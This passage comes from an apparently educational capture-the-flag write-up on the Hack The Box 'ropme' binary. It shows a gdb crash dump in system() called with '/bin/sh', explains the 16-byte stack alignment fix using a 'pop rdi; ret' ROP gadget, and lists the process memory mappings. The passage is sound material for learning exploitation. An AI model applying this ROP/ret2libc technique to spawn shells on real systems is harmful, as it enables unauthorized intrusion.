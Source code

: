 ```
   0x7ffff7a332e6 <do_system+1078>:	movq   xmm0,QWORD PTR [rsp+0x8]
   0x7ffff7a332ec <do_system+1084>:	mov    QWORD PTR [rsp+0x8],rax
   0x7ffff7a332f1 <do_system+1089>:	movhps xmm0,QWORD PTR [rsp+0x8]
=> 0x7ffff7a332f6 <do_system+1094>:	movaps XMMWORD PTR [rsp+0x40],xmm0
   0x7ffff7a332fb <do_system+1099>:	call   0x7ffff7a23110 <__GI___sigaction>
   0x7ffff7a33300 <do_system+1104>:	lea    rsi,[rip+0x39e2f9]        # 0x7ffff7dd1600 <quit>
   0x7ffff7a33307 <do_system+1111>:	xor    edx,edx
   0x7ffff7a33309 <do_system+1113>:	mov    edi,0x3
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb8 --> 0x5c599e31
0008| 0x7fffffffddc0 --> 0x7ffff7b97e97 --> 0x2f6e69622f00632d ('-c')
0016| 0x7fffffffddc8 --> 0x0
0024| 0x7fffffffddd0 --> 0x0
0032| 0x7fffffffddd8 --> 0x7ffff7a33360 (<cancel_handler>:	push   rbx)
0040| 0x7fffffffdde0 --> 0x7fffffffddd4 --> 0xf7a3336000000000
0048| 0x7fffffffdde8 --> 0x8d888aa005043400
0056| 0x7fffffffddf0 --> 0x7ffff7dcfa00 --> 0xfbad2088
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007ffff7a332f6 in do_system (line=0x7ffff7b97e9a "/bin/sh") at ../sysdeps/posix/system.c:125
125	../sysdeps/posix/system.c: No such file or directory.

```

**What? A segmentation fault? why?**

After breaking my head over this for a long time, I learned that when you call `system` the stack needs to be "16 bytes aligned" otherwise an exception is thrown (like we've just experienced).

When the compiler prepares the binary for us from the C code he always makes sure this happens, but when we mess around with the registers and the jumps - we can break things.

So what do we do? First, we have to make sure the stack pointer is 16 bytes aligned and not 8 bytes aligned like it is right now.
Because as of now, when we `ret` to `system` the stack pointer ends with `8` and we need it to end with `0` (in hex, if the least-significant-bit is zero, the number is a multiple of 16).

How do we get there? well, if we think about it for a second, in the end-result exploit we will need to pass an argument to `RDI` before calling system, so if we could first `ret` to some instruction that does something like `pop rdi; ret`, our stack will be 16 bytes aligned! (Do you see why?)

So we are looking for a ROP gadget, preferably one that is in a location which is not randomized by ASLR.
PEDA (a nice gdb plugin) provides a nice way of looking for gadgets via a string.
```
gdb-peda$ info proc mappings
process 31239
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x600000           0x601000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x601000           0x602000     0x1000     0x1000 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
      0x7ffff79e4000     0x7ffff7bcb000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bcb000     0x7ffff7dcb000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcb000     0x7ffff7dcf000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd1000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dd1000     0x7ffff7dd5000     0x4000        0x0
      0x7ffff7dd5000     0x7ffff7dfc000    0x27000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fdf000     0x7ffff7fe1000     0x2000        0x0
      0x7ffff7ff7000     0x7ffff7ffa000     0x3000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me